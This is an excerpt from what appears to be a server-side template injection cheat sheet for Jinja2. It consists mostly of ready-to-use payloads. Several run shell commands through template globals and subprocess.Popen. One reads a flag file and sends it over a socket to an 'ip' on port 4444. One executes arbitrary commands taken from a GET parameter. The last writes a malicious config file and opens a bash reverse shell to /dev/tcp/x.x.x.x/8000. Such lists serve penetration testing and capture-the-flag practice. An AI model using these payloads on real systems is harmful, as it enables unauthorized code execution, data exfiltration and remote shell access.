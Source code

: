```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

We can use these shorter payloads (this is the shorter payloads known yet):

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

Source [@podalirius_](https://twitter.com/podalirius_) : https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/

#### Exploit the SSTI by calling subprocess.Popen

:warning: the number 396 will vary depending of the application.

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### Exploit the SSTI by calling Popen without guessing the offset

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Simply modification of payload to clean up output and facilitate command input (https://twitter.com/SecGus/status/1198976764351066113)
In another GET parameter include a variable named "input" that contains the command you want to run (For example: &input=ls)

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### Exploit the SSTI by writing an evil config file.

```python
# evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
